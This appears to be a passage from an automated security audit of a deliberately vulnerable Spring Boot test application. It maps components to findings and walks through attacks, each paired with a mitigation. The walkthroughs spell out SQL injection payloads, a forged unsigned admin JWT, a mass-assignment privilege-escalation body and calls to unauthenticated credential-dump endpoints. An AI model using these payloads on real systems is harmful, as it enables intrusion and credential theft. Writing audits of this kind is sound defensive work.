Who interacts with insecure-spring-app from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).



**Key takeaway:** Every actor in the context interacts with insecure-spring-app through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



**Key takeaway:** The system decomposes into 0 client, 6 application and 1 data unit(s); Spring Boot Web Application carries the most Critical findings (4) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** Spring Boot Web Application concentrates the most findings (12 of 46 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|----------------------|-----------|----------------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="spring-boot-app"></a><span style="white-space:nowrap">C-01</span> | Spring Boot Web Application | application | `src/main/java/com/example/appsecverificationtarget/web/**`<br/>`src/main/java/com/example/appsecverificationtarget/serverside/**`<br/>`src/main/java/com/example/appsecverificationtarget/cors/**`<br/>`src/main/java/com/example/appsecverificationtarget/config/**`<br/>`src/main/resources/**` | 🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java:18`)<br/>🔴 [F-011](#f-011) — Actuator Endpoints Publicly Exposed with Full Secret Values (`SecurityConfig.java:33`)<br/>🔴 [F-012](#f-012) — Hardcoded Secrets Baked into Container Image (`Dockerfile:13`) (`Dockerfile:13`)<br/>🔴 [F-016](#f-016) — H2 Database Console Publicly Exposed (`SecurityConfig.java:32`)<br/>🟠 [F-018](#f-018) — Permissive CORS Origin Reflection (`CorsPolicyFilter.java:32`)<br/>🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`)<br/>🟠 [F-025](#f-025) — XML External Entity Injection (`XmlPreviewController.java:22`)<br/>🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)<br/>🟠 [F-031](#f-031) — Dockerfile base image must be digest-pinned (`Dockerfile:1`)<br/>🟠 [F-041](#f-041) — Unrestricted File Type Upload with No Extension or MIME Validation (`BusinessFileStorage.java:13`)<br/>🔴 [F-043](#f-043) — Admin Report Endpoint Unauthenticated (`SecurityConfig.java:34`)<br/>🟡 [F-045](#f-045) — Dockerfile USER directive (non-root) (`Dockerfile:1`) |
| <a id="c-02"></a><a id="auth-service"></a><span style="white-space:nowrap">C-02</span> | Authentication Service | application | `src/main/java/com/example/appsecverificationtarget/authentication/**`<br/>`src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java` | 🔴 [F-003](#f-003) — Insecure JWT Verification (`LegacyJwtVerifier.java:15`)<br/>🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)<br/>🔴 [F-008](#f-008) — Unauthenticated Endpoint Returns All Users With Cleartext Passwords (`LegacySqliteAuthController.java:50`)<br/>🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`)<br/>🟠 [F-019](#f-019) — CSRF Protection Disabled Application-Wide (`SecurityConfig.java:28`)<br/>🟠 [F-029](#f-029) — Plaintext Password Logged on Every Login (`CredentialLoggingFilter.java:25`)<br/>🟠 [F-030](#f-030) — MD5 Password Hash Used in Registration Path (`RegistrationController.java:55`)<br/>🟠 [F-034](#f-034) — Cleartext Password Storage in SQLite Database (`LegacySqliteUserStore.java:37`)<br/>🟠 [F-035](#f-035) — Cleartext Password Enumeration via Public API (`LegacySqliteUserStore.java:77`)<br/>🟠 [F-038](#f-038) — No Rate Limiting on Auth Endpoints Enables Credential Stuffing (`SecurityConfig.java:30`)<br/>🔴 [F-048](#f-048) — JWT verification does not pin the accepted algorithm (`LegacyJwtVerifier.java:17`) |
| <a id="c-03"></a><a id="access-control"></a><span style="white-space:nowrap">C-03</span> | Authorization and Access Control Layer | application | `src/main/java/com/example/appsecverificationtarget/accesscontrol/**` | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)<br/>🟠 [F-027](#f-027) — Missing Security Event Logging (`ProfileController.java:35`)<br/>🔴 [F-028](#f-028) — Missing Authorization (`AdminReportController.java:35`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>🟠 [F-040](#f-040) — Insecure Direct Object Reference (`OrderAccessController.java:24`) |
| <a id="c-04"></a><a id="input-validation"></a><span style="white-space:nowrap">C-04</span> | Input Validation and Data Access Layer | application | `src/main/java/com/example/appsecverificationtarget/inputvalidation/**`<br/>`src/main/java/com/example/appsecverificationtarget/clean/**` | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🔴 [F-006](#f-006) — SQL Injection (`OrderLookupDao.java:22`)<br/>🔴 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email (`OrderSearchController.java:24`)<br/>🟡 [F-046](#f-046) — Unauthenticated public-feed exposes internal storageName and classification fie… (`DocumentSearchController.java:33`) |
| <a id="c-05"></a><a id="crypto-service"></a><span style="white-space:nowrap">C-05</span> | Cryptography and Token Service | application | `src/main/java/com/example/appsecverificationtarget/crypto/**` | 🔴 [F-004](#f-004) — Forgeable Custom Authentication Tokens (`HomegrownCipher.java:8`)<br/>🔴 [F-009](#f-009) — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords (`CustomCryptoController.java:45`)<br/>🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)<br/>🟠 [F-020](#f-020) — Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:14`)<br/>🟠 [F-022](#f-022) — Predictable OTP from Non-Cryptographic PRNG (`LegacyTokenService.java:10`)<br/>🔴 [F-032](#f-032) — Hardcoded Symmetric Encryption Keys (`LegacyCryptoService.java:13`)<br/>🟠 [F-033](#f-033) — Unsalted MD5 Password Hashing (`LegacyPasswordService.java:15`)<br/>🟠 [F-044](#f-044) — Deterministic AES/ECB Encryption without IV (`LegacyCryptoService.java:17`) |
| <a id="c-06"></a><a id="data-persistence"></a><span style="white-space:nowrap">C-06</span> | Data Persistence Layer | data | `src/main/java/com/example/appsecverificationtarget/domain/**`<br/>`runtime/legacy-auth.sqlite` | 🔴 [F-015](#f-015) — Unauthenticated H2 Console Access (`SecurityConfig.java:32`)<br/>🟠 [F-036](#f-036) — Legacy Credential Database Baked Into Container Image Layers (`legacy-auth.sqlite`) |
| <a id="c-07"></a><a id="file-storage"></a><span style="white-space:nowrap">C-07</span> | File Storage | data | `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java`<br/>`runtime/documents`<br/>`runtime/uploads` | 🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)<br/>🟠 [F-024](#f-024) — World-Writable File Permissions on All Container Files (`Dockerfile:26`) (`uploads`)<br/>🟠 [F-039](#f-039) — Unbounded File Read Exhausts JVM Heap via Path Traversal (`FileReadController.java:22`) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited. To keep the section focused, it covers the **8 highest-priority of 15 Critical findings** (chain entry points and the findings closest to a breach); every remaining Critical still has a full [§8 Findings Register](#8-findings-register) row with the same evidence, impact, and fix. Each walkthrough has attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 Insecure JWT Verification in Authentication Service

**Source:** 🔴 [F-003](#f-003) — `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. `LegacyJwtVerifier.readClaims()` calls `Jwts.parserBuilder()`.`build().parseClaimsJwt`(token), which parses an UNSIGNED JWT (JWS-without-signature form).
2. `LegacyAdminAuditController.audit()` invokes this method and then checks only whether `claims.get("role").equals`("ADMIN") before granting access to the full user roster, order counts, and document counts.
3. An anonymous internet attacker issues GET /api/legacy-admin/audit?token=<crafted-unsigned-jwt-with-role=ADMIN> where the token payload encodes {"sub":"attacker","role":"ADMIN"}.

**Sequence Diagram**



**Key takeaway:** Until ● [M-003](#m-003) (Replace parseClaimsJwt with parseClaimsJws and enforce a sig) lands, 🔴 [F-003](#f-003) is exploitable at `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ● [M-003](#m-003) (Replace parseClaimsJwt with parseClaimsJws and enforce a signed-token allowlist in LegacyAdminAuditController)

### 3.2 SQL Injection in Legacy Auth Endpoint

**Source:** 🔴 [F-005](#f-005) — `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. `LegacySqliteUserStore.authenticateRaw()` builds a SQL query by string-concatenating the caller-supplied username and password directly into the query text at line 64: `"select … where username = '"` + username + "' and password = '" + password + "'".
2. `LegacySqliteAuthController.loginRaw()` (GET /api/legacy-sqlite/login-raw) routes unauthenticated requests here.
3. An anonymous attacker sends GET /api/legacy-sqlite/login-raw?username=%27+OR+%271%27%3D%271%27--&password=x, causing the resulting SQL to evaluate to `SELECT * WHERE 1=1 and returning the first user row — typically legacy_admin with role ADMIN — without knowing any valid credential`.

**Sequence Diagram**



**Key takeaway:** Until ● [M-005](#m-005) (Replace string-concatenated SQL in authenticateRaw with a Pr) lands, 🔴 [F-005](#f-005) is exploitable at `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-005](#m-005) (Replace string-concatenated SQL in authenticateRaw with a PreparedStatement)

### 3.3 SQL Injection in Input Validation and Data Access Layer

**Source:** 🔴 [F-006](#f-006) — `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. GET /api/orders/search is declared .`permitAll()` in `SecurityConfig.java` (line 35), so no authentication is required.
2. `OrderLookupDao.findByOwnerEmail()` concatenates the caller-supplied email directly into a native SQL string: `"where u.email = '"` + email + "' order by `o.id`" (`OrderLookupDao.java:22`).
3. An attacker submits email=' OR '1'='1 to retrieve all orders for every user in the database, or email=' UNION SELECT table_name,null,null,null,null,null,null,null,null FROM `information_schema.tables`-- to enumerate the schema.

**Sequence Diagram**



**Key takeaway:** Until ● [M-006](#m-006) (Replace string-concatenated native queries with parameterize) lands, 🔴 [F-006](#f-006) is exploitable at `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-006](#m-006) (Replace string-concatenated native queries with parameterized queries in OrderLookupDao)

### 3.4 Hardcoded Secrets Baked into Container Image in Dockerfile

**Source:** 🔴 [F-012](#f-012) — `Dockerfile:13`

Severity **Critical** ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Information Disclosure. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. An attacker with read access to the container image registry (or who can pull the image) runs docker inspect or docker history to retrieve the ENV layers.
2. All four secret ENV instructions in the Dockerfile are baked into the image manifest in plaintext: `DB_PASSWORD`=fixture-local-admin-token, `JWT_SIGNING_KEY`=hardcoded-legacy-jwt-secret, `AWS_ACCESS_KEY_ID`=AKIA**** (20 chars), `AWS_SECRET_ACCESS_KEY`=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.
3. The AWS key pair, if active, enables direct access to the account's IAM-permitted resources.

**Sequence Diagram**



**Key takeaway:** Until ● [M-012](#m-012) (Remove hardcoded secrets from Dockerfile and inject at runti) lands, 🔴 [F-012](#f-012) is exploitable at `Dockerfile:13` (Critical-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ● [M-012](#m-012) (Remove hardcoded secrets from Dockerfile and inject at runtime from a secrets manager)

### 3.5 Mass Assignment Privilege Escalation in Profile Controller

**Source:** 🔴 [F-013](#f-013) — `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. `PUT /api/profile/me` at `ProfileController.java:35` binds `@RequestBody AppUser incoming` directly to the JPA entity class `AppUser`.
2. Lines 44-47 explicitly copy `incoming.getRole()` (line 44) and `incoming.isAdmin()` (line 47) onto the managed entity before saving it.
3. Any authenticated user can send `{"role": "ADMIN", "admin": true}` in the request body and immediately obtain full administrative privileges with no additional authorization check.

**Sequence Diagram**



**Key takeaway:** Until ● [M-013](#m-013) (Replace direct JPA entity binding in PUT /api/profile/me wit) lands, 🔴 [F-013](#f-013) is exploitable at `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ● [M-013](#m-013) (Replace direct JPA entity binding in PUT /api/profile/me with a restricted DTO that excludes role and admin fields)

### 3.6 All Crypto Endpoints Exposed Without Authentication in Security Config

**Source:** 🔴 [F-014](#f-014) — `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:45`

Severity **Critical** ([CWE-862](https://cwe.mitre.org/data/definitions/862.html)). STRIDE: Elevation of Privilege. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. `SecurityConfig.java:45-46` explicitly places every `/api/crypto/**` and `/api/legacy-crypto/**` path in the `permitAll()` block, bypassing Spring Security's default require-authentication rule for `anyRequest().authenticated()`.
2. A network attacker with no credentials can call `GET /api/legacy-crypto/token?subject=admin` to obtain a token issued for any subject, `GET /api/legacy-crypto/whoami?token=<token>` to verify token content, and `GET /api/legacy-crypto/credentials` to dump all vault credentials.
3. If any downstream component accepts these tokens as authentication proof, the attacker achieves full privilege escalation without ever authenticating.

**Sequence Diagram**

